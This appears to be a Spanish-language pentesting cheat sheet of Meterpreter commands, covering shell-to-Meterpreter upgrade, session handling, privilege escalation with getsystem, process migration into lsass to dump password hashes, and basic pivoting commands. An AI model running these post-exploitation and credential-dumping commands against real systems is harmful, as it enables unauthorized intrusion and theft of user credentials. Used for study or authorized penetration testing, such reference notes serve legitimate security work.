 # Meterpreter Commands

Tags: #Comandos #Meterpreter 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 
```

## Comandos con Meterpreter

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 

❯ sysinfo                    # Muestra informacion del Windows 
❯ getuid                     # Miramos el nombre del usuario 
❯ getprivs                   # Miramos los  procesos con privilegios 
❯ getsystem                  # Miras los procesos privilegiados 
❯ pgrep explorer             # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc            # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 

❯ hashdump                   # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

## Para hacer Pivoting con Metasploit

```bash 
❯ arp                      #
❯ netstat                  # 
❯ route                    # 
❯ portfwd                  # 
```
